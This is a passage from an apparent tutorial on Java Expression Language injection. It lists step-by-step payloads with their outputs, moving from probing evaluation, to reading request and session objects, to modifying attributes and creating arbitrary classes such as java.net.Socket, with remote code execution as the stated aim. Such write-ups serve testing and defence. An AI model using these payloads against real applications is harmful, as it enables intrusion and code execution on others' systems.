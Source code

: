 In above example, anything between expression delimiters {{ }} will be evaluated, and that&#39;s what we are more interested in.

Once it is confirmed that anything between expression delimiters is evaluated from this point we can send payloads to start gathering more information.

Convert string to Uppercase:

Payload: ${{&#39;abc&#39;.toUpperCase()}}

Output: ABC

Concatenate two strings.

Payload: ${{&#39;abc&#39;.concat(&#39;def&#39;)}}

Output: abcdef

Get the class name of string.

Payload: ${{&#39;a&#39;.getClass()}}

Output: java.lang.String

 

There are some built in variables such as {{ request }}, {{ session }},{{ faceContex }}

Get the class of request object

Payload: ${{ request }}

Output: [org.apache.catalina.connector.RequestFacade@316732da]

Get the class of session object

Payload: ${{ session }}

[org.apache.catalina.session.StandardSessionFacade@5e19c3de]

From this point we have some information regarding application we can start testing some functionality.

Can we modify an object?

Payload: ${{request.setAttribute(&quot;r&quot;,&quot;abc&quot;)}}  ${{request.getAttribute(&quot;r&quot;)}}

Output: abc

Object modification is possible which might be a big risk.

We know about Expression language how it works, the goal is to write payload to get remote code execution.  We can use forName() newInstance() Methods to get an instance of class dynamically.

Using string &#39;a&#39; to get an instance of class Java.net.Socket -

Payload: ${{&quot;a&quot;,&quot;&quot;.getClass().forName(&quot;java.net.Socket&quot;).newInstance()}}

Output: [a, Socket[unconnected]]

An example payload to create array object using  forName() newInstance() Methods.

${request.setAttribute(&quot;a&quot;,&quot;&quot;.getClass().forName(&quot;java.util.ArrayList&quot;).newInstance())}
